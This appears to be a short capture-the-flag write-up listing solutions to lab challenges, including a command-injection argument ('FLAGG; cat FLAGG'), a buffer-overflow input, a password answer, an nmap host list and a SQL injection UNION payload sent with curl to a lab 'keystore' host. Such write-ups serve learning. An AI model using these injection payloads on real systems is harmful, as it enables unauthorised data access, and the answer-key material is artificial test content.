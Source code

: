 # Etj CTF

## 1.1

cat FLAGG

## 1.2

./cat FLAGG

## 1.3

./md5sum "FLAGG; cat FLAGG"

## 1.4

./overflow AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFGHAAAAAAAAAAAAAAAAAAAAAAA0000000

## 1.5

./check_password Reverse_engineering_er_morsomt__

## 2.0

nmap ....
10.0.47.81
10.0.47.82
10.0.47.83 scoreboard     80/tcp open  http
10.0.47.84
10.0.47.85
10.0.47.87 keystore       80/tcp open  http
10.0.47.88 cloud-hq       22/tcp open  ssh (key only)
10.0.47.89
10.0.47.90
10.0.47.93 cloud-c2-70    1337/tcp open  waste

## 2.1_keystore

SQL injection

the URL provided use the input for constructing an sql query. there is no sanitation beforehand, so we can ' and use union to insert 3 columns of our own. We can get tablenames from information_schema.tables e.g: "UNION+SELECT+TABLE_NAME,+NULL,+NULL+FROM+information_schema.tables", and run again to get column names for the interesting tables (keystore, userstore, user_key_upload) from information_schema.columns. Then we need to fetch id unmber from keystore, look up this in user_key_upload to find user_id. Then look up this user_id in userstore to find the username.

`curl "http://keystore/query.php?keyname=%27+UNION+SELECT+@@version,NULL,NULL%23"`
returns version= 8.0.19 which indicate MySql
